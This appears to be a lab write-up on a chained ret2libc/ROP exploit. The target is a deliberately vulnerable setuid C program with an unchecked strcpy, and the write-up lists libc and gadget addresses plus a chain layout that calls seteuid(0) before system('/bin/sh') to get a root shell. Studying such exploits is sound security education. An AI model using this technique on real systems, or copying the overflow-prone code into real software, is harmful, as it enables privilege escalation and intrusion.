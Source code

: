 # Chained ret2libc/ROP

## Task
The goal is to exploit the following simple program, when compiled with the following commands:
```
vijay@kali> cat vuln3.c
#include <stdio.h>
#include <string.h>
#include <sys/types.h>
#include <unistd.h>

int main(int argc, char* argv[]) {

  char buf[256];

  seteuid(getuid());     /* Drop privileges */

  strcpy(buf, argv[1]);
  printf("Input: %s\n", buf);

  return 0;
}
vijay@kali> gcc -g -fno-stack-protector -mpreferred-stack-boundary=2 -o vuln2 vuln2.c
vijay@kali> sudo chown root vuln2
vijay@kali> sudo chgrp root vuln2
vijay@kali> sudo chmod +s vuln2
```

The main challenge here is that the program drops its root privileges, so using the previous exploit this time will give a regular user shell. You can still exploit this program by chaining a call to seteuid(0) before spawning your shell ('man seteuid' for more details).

## Solution
### Instructions to run
```
# exploit vuln3.c
$ make clean && make vuln3
$ python exploit3.py
```
### Explanation
Here we need to chain the seteuid(0) fxn call before calling the system function. I found the fxn addresses by using similar approach as explained in Ret2Libc part.
```
seteuid_addr    = 0xb7ee28b0 # seteuid fxn address
system_addr     = 0xb7e3f850 # system fxn address
exit_addr       = 0xb7e336c0 # exit fxn address
bin_sh_str      = 0xb7f5de64 # "/bin/sh" string
```
To push the null bytes argument to seteuid fxn, I found the following gadgets using ROPgadget(https://github.com/JonathanSalwan/ROPgadget)
```
pop_ret         = 0xb7f46859 # pop; ret;
xor_eax_eax     = 0xb7e34a3b # make eax null
mov_esp_8_eax   = 0xb7e2ffd5 # mov null bytes to esp + 0x8 location
```

I chained the gadgets as shown below:
```
xor eax; eax; ret; | mov (esp)0x8 eax; ret; (write null bytes to seteuid arg) |
seteuid fxn address | pop; ret; | 0xffffffff (seteuid arg placeholder) |
system fxn address | exit fxn address | "/bin/sh" string address
```
Please refer to exploit3.py for complete details about the payload to exploit vuln3.c.
